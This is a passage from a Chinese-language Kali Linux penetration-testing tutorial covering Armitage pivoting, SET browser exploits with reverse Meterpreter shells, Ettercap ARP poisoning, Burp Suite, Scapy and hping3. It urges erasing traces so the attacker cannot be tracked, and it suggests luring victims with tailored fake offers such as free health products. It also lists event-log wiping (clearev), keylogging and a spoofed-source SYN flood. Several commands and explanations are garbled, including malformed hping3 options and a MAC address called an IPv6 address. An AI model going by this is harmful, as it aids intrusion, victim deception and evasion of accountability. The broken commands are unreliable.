你可以使用 "Attacks" 菜单上的 "find attacks" 在 Armitage 中启动攻击分析，找出适用于某些主机的攻击。一旦识别出漏洞并可用攻击，你可以右键点击主机图标并发起攻击。

- 注意：“Attack all”选项将一次启动所有攻击。

## 将被攻击的主机作为进一步攻击的“跳板”（Pivot point）



渗透测试的重要步骤之一是清除所有痕迹和证据，这样你就不会被追踪。可以采取的方法是使用受害者机器向其他主机发起攻击，这样就不会留下你 IP 地址的痕迹。

“跳板”攻击的另一个用途是当你无法访问需要渗透的网络时。例如，如果有一个主机连接到多个不同的网络，而只有其中一个网络是 Kali 机器可以访问的。为了攻击其他网络，可以使用该主机作为跳板。

下面我们将向你展示如何使用 Armitage 进行跳板攻击。在本示例中，Kali 和受害者机器像普通客户端一样位于网络 A。然而，受害者还具有另一个连接到网络 B 的连接。目标是使用受害者机器来攻击网络 B。

- `client eth0` -- 从 Kali 上的 DHCP 服务器获取 IP 地址，假设 Kali 位于启用了 DHCP 的网络
- 启动 armitage
- 你可以通过进入 Hosts 和 View 菜单清除旧的 Hosts 和 jobs
- 带有 OS 识别的快速扫描
- 确保你已从列表中删除了不想攻击的主机，包括你自己的主机
- 进入 Attacks 菜单并选择“find attacks”
- 如果你愿意，可以像上一步一样通过 shell 访问权限（netapi）攻击受害者
- 你可以通过在受害者上进行 ARP Scan 来检查 ARP 表，以找出它们连接到了哪些网络。
- 在受害者 HOST 上选择“Meterpreter”然后选择“Pivoting”，这将添加一条路由并列出所有通过该 HOST 可以找到的其他主机，并使用该受害者 HOST 进行进一步攻击。
- 现在你可以扫描所有其他设备，并对它们点击右键并选择 scan。
- 一旦发现服务，就可以开始攻击位于不同网络的主机。



## 使用 OpenVAS 和 Metasploit 进行漏洞扫描


Metasploit framework 拥有许多针对著名漏洞扫描器的内置插件，例如 OpenVAS 等：

- 要运行 OpenVAS，在 msfconsole 中输入 `load openvas`，它将从其数据库中加载并打开 VAS 插件。
- 现在输入 `openvas_help`，它将显示 OpenVAS 的所有用法命令。
- 我们必须通过输入命令 `openvas_connect` 将 OpenVAS 连接到其服务器，它将显示完整的用法命令，即 `openvas_connect username host port <ssl-confirm>` 用于连接到服务器。
  - 示例：`openvas_connect rassoul tour localhost 9390 ok`
- 如上所示，我们的 OpenVAS 连接成功了。现在我们将为扫描创建一个目标。创建目标的命令是 `openvas target create <name> <host> <port> <protocol>`。

## 社会工程工具包 (Social Engineering Toolkit)


社会工程工具包（SET）是一组用于发起社会工程攻击的工具。有许多不同的工具可以用于不同的目的。

- 它是一个菜单驱动的攻击“系统”，包括：
    - 鱼叉式钓鱼（电子邮件）
    - 批量邮件发送器（电子邮件）
    - 网站（浏览器）
    - 感染媒体（USB）
    - 可执行文件（程序）
    - 以及更多
- 可以 `setoolkit` 命令运行社会工程工具包。
- 下面的工具是 SET 攻击的一个示例。
- 运行 `setoolkit` 并选择 "Website Attack Vectors"（网站攻击向量）。
- 选择 "Metasploit Browser Exploit Method"（Metasploit 浏览器利用方法）。
- 选择 "Web Template"（Web 模板）。
- 如果你使用 NAT，你需要提供翻译后的地址，否则提供你的接口 IP 地址
    - 你需要在防火墙上为你的 Kali 机器创建一个一一 NAT，并确保 Kali 可以通过互联网访问，而不是在 NAT 之后。输入你的 Kali 机器 IP 地址
- 例如 "Java Required"（需要 Java）。
- 选择漏洞利用的类型——例如 "Metasploit Browser Autopwn (USE AT OWN RISK)"（风险自自负）。
- 选择你想执行的操作——例如 "Windows Reverse_TCP Meterpreter"。
- 选择额外要求——例如端口 443。
- 完成后按回车键
- 带有利用程序的 Web 服务器已创建并准备就绪，可以通过输出的地址访问。
- 一旦有人连接到 Web 服务器，利用程序就会启动并建立返回到 Kali/Backtrack 的连接
  - 有几种方法可以让人们连接到该网站。例如 DNS 投毒或社会工程学。通过社会工程学，你可以调查受害者的兴趣，并让网站变成他们感兴趣的内容。例如，如果他们对健康产品感兴趣，可以将其作为免费健康产品订单并发送给他们。或者你可以在共享网站上放置链接等。你需要发挥创意！
- 在提示符处，你可以输入 `sessions` 来检查是否有人连接。
- 如果你想开始与其中一个会话交互，输入：
  - `session -i 1` —— 这将开始与会话 1 交互
- 使用 help 命令获取帮助
- 例如 `clearev` 将删除 Windows 上所有的事件日志！
- 例如 `execute -f calc.exe` —— 你可以在受害者机器上运行 calc.exe
- 例如 `keyscan_start` 是一个按键记录器，你可以通过 `keyscan_dump` 导出它们。


## Ettercap、Xplico 和 MITM 攻击

目标 主机 Mitm 过滤器 日志 插件 帮助

| 目标 1 | 目标 2 |
| --- | --- |
| 192.168.1.1 | 192.168.1.2 |
| 删除 | 添加 | 删除 | 添加 |

2183 已服务

正在随机选择 255 台主机进行扫描...
正在扫描整个网段的 255 台主机...
主机列表中已添加 0 个主机...
正在随机选择 255 台主机进行扫描...
正在扫描整个网段的 255 台主机...
主机列表中已添加 1 个主机...
主机 `192.168.1.1` 已添加到目标！

中间人攻击（MITM attack）是网络上最常见的攻击类型之一。通过这种攻击，攻击者可以坐在客户端和服务器之间，捕获所有流量而不被任何人察觉。

在这个示例中，你将学习如何使用 `ettercap` 和 `xplico` 软件发起 MITM 攻击，并嗅探从受害者机器发出的所有流量。

`Ettercap` 是一个强大的工具，可以执行 ARP 投毒、DHCP 和 DNS 欺骗或 ICMP 重定向等操作。

`Xplico` 是一个带有 Web 界面的优秀工具，用于嗅探和分析流量。

使用 `ettercap` 启动 MITM 攻击，请遵循以下步骤：

- `ettercap -G` —— 这将运行 `ettercap` 的 GUI
- 从 Sniff 菜单选择 Unified sniffing（统一嗅探）并选择 `eth0`
- 从 Hosts 菜单选择 "Scan for hosts"（扫描主机）
- 从 Hosts 菜单选择 "Hosts list"（主机列表）
- 选择网关地址作为 Target1，将受害者地址作为 Target2
- 进入 MITM 菜单并选择 Arp poisoning（ARP 投毒）
- 好了，你已经完成了 MITM 攻击
- 确保 Kali 上启用了 IP 转发，以确保受害者可以访问互联网

```
echo 1 >/proc/sys/net/ipv4/ip_forward
```

- 使用以下命令在 Kali 上运行 `xplico` 服务
  - `service xplico start`
  - 如果尚未安装，可以使用 `apt-get install xplico` 安装
  - 安装后，使用 `/etc/init.d/xplico start` 或上述命令运行
- 连接到输出指定的默认端口 `9876` Web 界面
- 用户名和密码均为 `xplico`
- 你需要遵循的步骤是在 `xplico` Web 界面上创建一个新案例（case），然后创建一个新会话（session）
- 然后你需要选择 “Live acquisition”（实时获取）并开始捕获
  - 如果愿意，也可以打开保存的捕获文件。例如使用 `wireshark` 嗅探器保存捕获的文件并用 `xplico` 打开
- 点击提供的链接，你可以看到所有数据分析
- 如果你愿意，可以停止实时获取并查看捕获的数据分析

## Burp Suite

- 分析客户端与 Web 服务器之间的通信细节

`Burp Suite` 是一个用于对 Web 应用程序攻击的集成平台。它包含了多种工具，这些工具之间有大量的接口，旨在促进并加速应用的攻击过程。所有工具共享同一个框架，用于处理和显示 HTTP 消息、持久化、身份验证、代理、日志、告警和扩展。

Kali 中提供了免费的限制版 `Burp Suite` 供使用。你可以从 Kali 的“Web 应用程序”和“Web 漏洞扫描器”菜单中运行 `burpsuite`，或直接在 shell 中运行 `burpsuite` 命令。

你将在特定任务中使用的 Burp 工具如下：

- `Spider`（蜘蛛） - 用于自动爬取应用程序，以发现其内容和功能。
- `Scanner`（扫描器） - 用于自动扫描 HTTP 请求以发现安全漏洞。
- `Intruder`（入侵者） - 允许你执行自定义的自动化攻击，执行各种测试任务。
- `Repeater`（重放器） - 用于手动修改并反复发送单个 HTTP 请求。
- `Sequencer`（序列器） - 用于分析会话 Token 的随机性质量。
- `Decoder`（解码器） - 允许你使用常用的编码和解码方案转换应用程序数据。
- `Comparer`（比较器） - 用于对应用程序数据位进行视觉比较，以发现有趣的差异。

启动 `Burp Suite` 的快速步骤：

- 设置 `Burp Suite` 的代理设置。（端口号和 IP 地址）
- 在网络上任何使用 `Burp` 作为代理服务器的浏览器上配置代理设置
- 一旦通过代理连接到网站，`Burp suite` 就会弹出通知，你可以选择转发流量
  - 注意：`Burp suite` 默认不会转发流量，需要手动完成
- 所有流量都将在 `Burp Suite` 中被捕获
- 若要在服务器上重放请求，请选择该请求并将其发送到 `repeater`
- 在 `Repeater` 中，你可以更改请求，并尝试使用不同的参数将请求发送到 Web 服务器，然后测试响应
- 另一个功能是 `Spider` - 选择你想要的请求并将其发送到 `Spider` 以获取更多信息

## 开始使用 Burp Proxy

`Burp Proxy` 位于 `Burp` 用户驱动工作流的核心。它在浏览器和目标应用程序之间作为 Web 代理服务器运行，允许你拦截、检查和修改双向的原始流量。

**注意**：使用 `Burp Proxy` 可能会导致某些应用程序产生意外的影响。在你完全熟悉其功能和设置之前，应仅对非生产系统使用 `Burp Proxy`。

要开始了解 `Burp Proxy`，请执行以下步骤：

1. 首先，确保 `Burp` 已安装并运行，并且你已配置浏览器与 `Burp` 配合。
2. 在 `Burp` 中，进入 Proxy Intercept 标签页，确保拦截开启（如果按钮显示 "Intercept is off"），然后点击它切换拦截状态。
3. 在浏览器中访问任何 URL。浏览器将等待直到请求完成。
4. 在 `Burp` 中，进入 Proxy Intercept 标签页。你应该看到浏览器的请求显示供你查看和编辑。点击消息编辑器的每个标签页（Raw、Headers 等），查看分析消息的不同方式。
5. 点击“Forward”（转发）按钮将请求发送到服务器。在大多数情况下，你的浏览器会发送多个请求来显示页面（例如图片等）。查看每个后续请求，然后将其转发到服务器。当没有更多需要转发的请求时，你的浏览器应该已经加载完成你请求的 URL。
6. 在浏览器中，点击刷新按钮重新加载当前页面。
7. 在 `Burp` 中，此时在 Proxy Intercept 标签页中编辑请求。更改请求第一行中的 URL，以便请求一个不存在的项目。将请求（以及任何后续请求）转发到服务器。然后查看浏览器。尽管你的浏览器请求了与之前相同的 URL，但你应该看到“Not found”（未找到）消息，因为你已经在 `Burp` 内部动态更改了实际发出的请求。
8. 在 `Burp` 中，进入 Proxy History 标签页。它包含一个所有通过代理的 HTTP 消息的表格。选择表格中的一项，查看请求和响应标签页中的 HTTP 消息。如果你选择了你修改过的项，将看到原始请求和修改后请求的独立标签页。
9. 点击 Proxy History 中的列标题。这将根据该列对表格内容进行排序。点击相同标题可以反转该列排序，再次点击清除排序并按默认顺序显示项目。尝试对不同的列进行此操作。
10. 在历史表格中，点击下拉菜单中的单元格。这将高亮所选列中的该行。在另一行中，双击 Comment（注释）列并输入注释。你可以使用高亮和注释对历史记录进行标记，并识别有趣的项目。
11. 历史表格上方有一个过滤器栏。点击过滤器栏显示可用选项。尝试以各种方式更改过滤器设置，查看其对显示内容的影响。
12. 选择你感兴趣的项目并将其发送到 `Repeater`。通常通过右键点击历史记录中的项显示右键菜单。选择“发送到 Repeater”，进入 `Repeater` 标签页。你可以通过 Proxy 选项设置来控制 `Burp` 的拦截行为。

# 使用 Burp Proxy

`Burp Proxy` 位于 `Burp` 用户驱动工作流的核心。它在浏览器和目标应用程序之间作为 Web 代理服务器运行，允许你拦截、检查和修改双向的原始流量。

如果应用程序采用 HTTPS，`Burp` 会破坏浏览器和服务器之间的 SSL 连接，以便查看和修改加密数据。

## 设置

设置 `Burp` 和浏览器使其工作涉及以下元素：

- 代理监听器 - `Burp` 使用监听器接收浏览器的请求。默认监听器位于 IPv4 回环接口的 `8080` 端口，通常足够。如果无法打开此端口（通常是因为其他程序占用），`Burp` 会提示。可以通过监听选项修改默认监听器并添加新的。
- 浏览器配置 - 你需要配置浏览器使用 `Burp` 监听器作为代理服务器，同时适用于 HTTP 和 HTTPS 协议。
- `Burp CA` 证书 - 由于 `Burp` 破坏了 SSL 连接，通过 `Burp Proxy` 访问 HTTPS 站点时浏览器默认会显示警告。这是因为浏览器不识别 `Burp` 的 SSL 证书，并推断流量可能被第三方攻击者拦截。为了有效使用 SSL 连接，你需要在浏览器中安装 `Burp` 根证书，使其信任 `Burp` 生成的证书。

## 拦截请求和响应

Intercept 标签页显示被 `Burp Proxy` 拦截的单个请求和响应。此功能是 `Burp` 用户驱动工作流的关键部分：

- 手动查看拦截的消息通常是详细理解应用程序攻击面的关键。
- 修改请求参数允许快速识别常见的安全漏洞。

默认情况下，`Burp Proxy` 只拦截请求消息而不拦截测试时不直接相关的常见 URL 文件扩展请求（图片、CSS 和静态 JavaScript）。你可以通过拦截选项更改此行为。例如，你可以配置 `Burp` 仅拦截包含参数的作用范围请求，或拦截所有包含 HTML 的响应。此外，你可能经常想完全关闭 `Burp` 的拦截，以便所有 HTTP 消息会自动转发，无需用户干预。你可以使用 Intercept（拦截）选项卡中的主拦截开关来执行此操作。

## 使用代理历史

`Burp` 会维护所有通过代理的请求和响应的完整历史。这允许你审查浏览器与服务器之间的对话，以理解应用程序的工作原理，或执行关键测试任务。有时，你可能希望在 Intercept 选项卡中完全禁用拦截，自由地浏览应用程序的部分功能，然后再仔细审查代理历史中生成的请求和响应。

`Burp` 提供了以下功能来帮助你分析代理历史：

- 可以通过点击任何列标题对历史表进行排序（点击表头可进行升序、降序和无排序）。这让你能够对相似项目快速分组，并识别任何异常项目。
- 你可以使用显示过滤器来隐藏具有各种特征的项。
- 你可以对项目进行高亮显示和注释，以描述其用途或标记以后回来看的感兴趣的项目。
- 你可以使用右键菜单打开历史的额外视图，以应用不同的过滤器或帮助测试访问控制。

## 驱动你的测试工作流

`Burp` 用户驱动工作流的关键部分是能够在 `Burp` 工具之间发送感兴趣的项目，以执行不同的任务。例如，在代理中观察到一个感兴趣的请求后，你可能：

- 使用 `Burp Scanner` 对仅该请求进行快速漏洞扫描。
- 将请求发送到 `Repeater`（重放器），手动修改请求并反复发送。
- 将请求发送到 `Intruder`（入侵器），以执行各种类型的自动化自定义攻击。
- 将请求发送到 `Sequencer`（序列器），以分析响应中返回的令牌的随机性质量。

你可以使用 Intercept 选项卡和代理历史中出现的右键菜单执行所有这些操作以及其他各种操作。

## 关键配置选项

对于更专业的测试任务，或在处理异常的应用程序时，你可能需要修改 `Burp Proxy` 的众多选项中的：

- 你可能需要修改 Proxy 监听器，以绑定到不同的接口，以不同方式处理服务器 SSL 证书，或为不支持代理的客户端支持隐形代理。
- 你可以配置 Proxy 以各种系统方式自动修改 HTTP 响应；例如，取消隐藏表单字段显示、移除 JavaScript 表单验证等。
- 你可以配置匹配/替换规则自动更改请求和响应的内容。

## 使用 Burp Suite

以下章节描述了在 Web 应用程序测试中使用 `Burp Suite` 的要素。

**注意：** 在开始使用 `Burp` 之前，你首先需要运行 `Burp`，配置显示设置，配置你的浏览器和 `Burp` 协同工作，并且在浏览器中安装 `Burp` 的 SSL CA 证书。

## 测试工作流

`Burp` 设计用于支持 Web 应用程序手动测试人员的活动。它让你有效地结合手动和自动化技术，让你对 `Burp` 执行的所有操作拥有完全控制，并对你测试的应用程序提供详细的信息和分析。

某些用户可能不想以这种方式使用 `Burp`，只想对应用程序进行快速、简单的漏洞扫描。

下图是 `Burp` 用户驱动工作流关键部分的高级概览。点击图的每个区域查看更多详情：



## 侦察与分析

`Proxy` 工具位于 `Burp` 工作流的核心。它允许你使用浏览器浏览应用程序，同时 `Burp` 捕获所有相关信息并让你能够轻松启动后续操作。在典型的测试中，侦察和分析阶段涉及以下任务：

- 手动映射应用程序 - 使用你的浏览器通过 `Burp Proxy` 进行。

在执行任何自动化操作之前，可能需要更新 `Burp` 配置的各个方面，例如目标范围和会话处理。

- **分析应用程序的攻击面** - 映射应用程序的过程会在代理历史和目标站点地图中填充 `Burp` 捕获到的有关应用程序的所有信息。这两个存储库都包含帮助你分析其包含的信息的功能，并评估应用程序暴露的攻击面。此外，你可以使用 `Burp` 的目标分析器报告攻击面的范围以及应用程序使用的不同 URL 类型。

## 工具配置

`Burp` 包含丰富的配置选项，在测试的不同阶段通常需要使用它们，以确保 `Burp` 以你要求的方式与目标应用程序配合。例如：

- 显示 - 你可以配置显示 HTTP 消息的字体和字符集，以及 `Burp` 自身 UI 的字体。
- 目标范围 - 目标范围配置告诉 `Burp` 你正在测试的项。
- 身份验证 - 如果应用程序需要身份验证，你可以配置 `Burp` 来处理它。
- 会话处理 - 许多应用程序使用会话令牌，`Burp` 可以帮助管理这些。
- 保存和恢复状态 - 你可以保存并在稍后恢复。
- 任务调度 - 你可以配置 `Burp` 定期调度任务。

## 漏洞检测与利用

完成对应用程序的侦察和分析后，你可以开始探测漏洞。同时使用多个工具通常是最有效的。在整个 `Burp` 中，你可以使用右键菜单执行操作。

在 `Burp` 的默认配置中，它会对通过代理的所有请求自动执行被动扫描。在你开始主动探测应用程序之前，可能会发现 `Scanner` 已经记录了一些值得进一步调查的发现。

`Burp` 的工具可以用于许多不同的方式来支持主动测试过程。下面描述了不同类型问题的示例：

- 基于输入的漏洞 - 对于诸如 SQL 注入、跨站脚本（XSS）和文件路径遍历等问题，你可以以多种方式使用 `Burp`：
  - 你可以使用 `Burp Scanner` 执行主动扫描。你可以选择 `Burp` 中任何位置的项，并使用右键菜单启动扫描。或者你可以配置 `Burp` 对通过代理的所有在范围内的请求进行实时扫描。
  - 你可以使用 `Burp Intruder` 进行模糊测试，使用自己的测试字符串。
  - 你可以将单个请求发送到 `Burp Repeater`，手动修改并反复发送请求。
  - 在识别出某些类型的漏洞后，你可以使用 `Burp Intruder` 主动利用这些漏洞。例如，你通常可以使用递归负载来利用 SQL 注入漏洞。

- 逻辑和设计缺陷 - 对于客户端控制控件使用不当、未能强制账户锁定以及在多阶段过程中跳过关键步骤的能力等问题，你通常需要手动操作：
  - 通常情况下，仔细审查代理历史将识别出需要调查的相关请求。
  - 你可以通过使用 `Burp Repeater` 单独发布这些请求，或通过开启 Proxy 拦截并在浏览器中手动更改请求，来探测应用程序对意外请求的处理。
  - 你可以使用 `Burp Intruder` 主动利用许多逻辑和设计缺陷。例如，`Intruder` 可用于枚举有效用户名、猜测密码、循环遍历预测的会话令牌或密码恢复令牌。

- 访问控制问题 - `Burp` 包含若干可以在测试访问控制漏洞时提供帮助的功能：
  - 你可以使用“比较站点地图”功能来执行各种任务，包括：识别某个用户可见而另一个用户不可见的功能；测试低权限用户是否可以访问应限制为高权限用户的功能；以及发现何处使用了用户特定的标识符来隔离同一类型两个用户对数据的访问权限。
  - 你可以使用不同的浏览器在不同的用户上下文中访问应用程序，并为每个浏览器使用独立的 `Burp Proxy` 监听器（使用不同的端口）。然后你可以打开额外的代理历史窗口（通过上下文菜单），并为每个窗口设置显示过滤器，以仅显示在特定监听端口上接收的项目。当你在每个浏览器中使用应用程序时，每个窗口将只显示与关联用户上下文相关的项目。然后你可以使用“在当前浏览器会话中请求”功能（通过上下文菜单）在浏览器之间切换，以确定它们在浏览器用户上下文中是如何处理的。


- 当应用程序在请求参数中传递标识符并用其识别当前用户上下文时，会产生许多权限提升漏洞。你可以使用 Burp Intruder 循环遍历格式正确的标识符（例如使用数字或自定义迭代器负载类型），并提取 grep 项目，以从应用程序的响应中获取感兴趣的特定用户数据，从而主动利用此类漏洞。

- 其他漏洞 - Burp 包含可用于交付且通常能自动化探测其他类型漏洞时出现的几乎任何任务的功能。例如：
  - 你可以查看目标站点地图的内容以发现信息泄露问题，并使用“搜索”和“查找”功能来协助你。
  - 在识别出可能的 CSRF 漏洞后，你可以使用 CSRF 生成器快速在 HTML 中创建概念证明攻击代码，然后使用“在浏览器中测试”功能将攻击加载到浏览器中，然后查看浏览器结果和代理历史以验证攻击是否成功。

- 你可以使用 Burp Sequencer 分析应用程序的会话令牌样本，并估计其随机性质量。

- 对于某些类型的加密会话令牌或其他参数，你可以使用 Burp Intruder 中的 `bit flipper` 和 `ECB block shuffler` 负载类型来盲目修改加密数据，尝试性地更改应用程序处理的解密数据。

- 你可以编写自定义的 Burp 扩展来执行更专业或定制化的任务。

# 树莓派上的 Kali Linux



Kali Linux 的有趣特性之一是它有一个可以安装在树莓派上的版本。树莓派是一个信用卡大小的小型口袋电脑，可以插入你的电视机和键盘，它拥有 PC 的所有接口，包括 SD、USB、以太网连接甚至 WIFI。

你可以从 cimageage.org 下载适用于树莓派的 Kali 定制镜像。一旦下载了适用于 ARM Raspberry Pi 的 Kali 镜像即可开始安装。你需要一张 SD 卡来写入镜像。这可以在 Windows 或 Linux 上完成。

- 在 Windows 上：
  - 下载 Win32 Disk Image 并将 ISO 文件写入 SD 卡。

- 在 Linux 上：
  - 你可以使用以下命令实现此操作（需要找到设备名称）
    `dd if=/path/to/Kali.iso of=/dev/sdx`

- 一旦开始使用 Kali，你就可以启用 SSH 并从桌面上管理该设备
  - 使用 Xming，你也可以配合 putty 在桌面上运行 GUI 。

## Scapy - 数据包处理工具 - 捕获、创建、播放、响应、发现

| Eth | IP | TCP | Payload |
|---|---|---|---|
| 14 | 20 | 20 | |

-- TCP MSS Ethernet MTU

Scapy 是一个强大的交互式数据包处理工具、包生成器、网络扫描仪、网络发现工具和包嗅探器。注意 Scapy 是一个非常底层的工具——你使用 Python 编程语言与之交互。它提供了类来交互式地创建单个或一组包、操纵它们、将它们发送到线路、从线路嗅探其他包，并匹配答案和回复。

- 使用 `scapy` 命令运行它 —— 你可以更改包/帧的参数和部分，并使用此工具发送它们。

- 示例：
  `send(IP(src="192.168.1.55",dst="192.168.1.10")/ICMP())/"OurPayload"`

- 在上面的示例中，一个 ICMP 包将从 src 发送到 dst，并带有我们指定的负载。

- 使用 Scapy，我们需要定义一些变量：
  - `L2=Ether()`
  - `L3=IP()`
  - `L4=TCP()`

- 使用 L2、L3 或 L4 配合任何参数都将在输出屏幕上显示定义的变量
  - `L2.show()` 或 `L3.show()` 或 `L4.show()` -- 显示该协议内部包含的、可以定义的内容

- 下面是如何使用 scapy 的示例：
  - `L2=Ether(src="01:23:45:67:89:ab")` -- 这将定义 L2 上的 ipv6 源地址
  - `L2.show()` -- 使用此项确认更改已完成
  - `L3=IP(ttl=99, dst="192.168.1.1")`
  - `L3.show()`
  - `del(L3.dst)` -- 如果你需要更改或删除 dst，这将删除 L3 上定义的 dst
  - `L4=TCP(sport=6783, dport=22, flags="A")`
  - `L4.show()`
  - `Send=sendp(L2/L3/L4)` - 这将一次性发送 L2、L3、L4 包。

- 这里是你使用 scapy 的其他情况：
  - `Sniff(iface="eth0",prn=lambda x: x.show())` -- 在 eth0 上嗅探并显示输出
  - `Sniff(iface="eth0",prn=lambda x: x.summary())` -- 与上述相同，但仅显示包的摘要
  - `Sniff(filter="host 192.168.1.1", count=5)` -- 如果包含 192.168.1.1，则只嗅探 5 个结果
  - `a[?]` -- 这将显示在上述过滤命令上捕获的包，"?" 是你想要查看详情的包数量
  - 退出 Scapy 请使用 Ctrl+D

## HPing 3


Hping 是一个面向命令行 TCP/IP 包组装器/分析器。其灵感源于 ping 命令，但 hping 不仅限于发送 ICMP 请求。它支持 TCP、UDP、ICMP 和 RAW 协议，具有路由跟踪模式、发送文件的能力以及许多其他功能。

- Hping 的某些功能不限于
  - 端口扫描 - Syn, ack 以及其他
  - 主机发现、指纹识别、嗅探、泛洪、文件传输

- 使用 `man hping3` 获取更多信息

- 使用 hping 的示例：
  - `hping3 -S man-dest=example.com -p 80 -c 2` -- TCP syn
  - `hping3 -S man-dest=example.com -p 80 -c 2` -- TCP 请求端口 80，2 次
  - `hping3 -S 192.168.1.38 -p 50 -c 5` -- 这显示端口 50，共5 次
  - `hping3 -1 192.168.1.1 -xrand-dest -Ieth0` -- -1 意味着 icmp，rand-dest 将随机 ping，-1 指定接口
  - `hping3 -S www.example.com -p 80 -T -ttl 13 -tr-keep-ttl -n` -- 我们将从到达目标的第13跳获取响应。这可以帮助发现是否存在负载均衡器并获取不同的 IP 地址
  - `hping3 -S 192.168.1.38 -a192.168.1.254 -p 22 -flood` -- -S 是 syn 标志，-a 是源地址，--flood 将尽可能快发送包并泛洪目标
  - `hping3 -2 www.example.com -p 44444 -T -n` -- T 表示路由跟踪但 -2 是 UDP
  - `hping3 -S www.example.com -p 53` -- 类似于 TCP 的路由跟踪。按 Ctrl+Z 停止
  - `hping3 -F -P -U 192.168.1.38 -c 3` -- F 意味着修改 FIN 标志，P 是 PUSH，U 是 URG
  - `hping3 192.168.1.38 -Q -p 139 -s` -- Q 显示序列号

- `hping3` -- 将进入 hping 的命令行提示符
  - `hping3> hping send`

## IPv6 邻居发现


邻居发现协议 (NDP) 可以被概念化 IPv6 主机用于执行各种本地链路操作的工具箱。NDP 本身并不描述线层协议或数据包结构，而是通过某些算法和精细的 ICMPv6 消息类型为完成常规任务建立方向。

NDP 提供的许多功能与 IPv4 中的 ARP 和 ICMPv4 非常相似，而另一些则是仅在 IPv6 下可用的新实现。RFC 4861 详细描述了 NDP 的九种功能，但本文作为高级回顾已经足够了。如果你想配合 Wireshark 一起操作，可以获取各种 IPv6 邻居发现功能的数据包捕获。

## 路由器发现

IPv4 主机必须依赖手动配置或 DHCP 提供默认网关地址，而 IPv6 主机可以自动定位链路上的默认路由器。这是通过使用两种 ICMPv6 消息实现的：路由器请求（类型 133）和路由器公告（类型 134）。当首次加入链路时，IPv6 主机会向所有路由器组播组发送一个路由器请求，每个活跃的路由器通过向所有节点组发送带有其地址的路由器公告来响应。

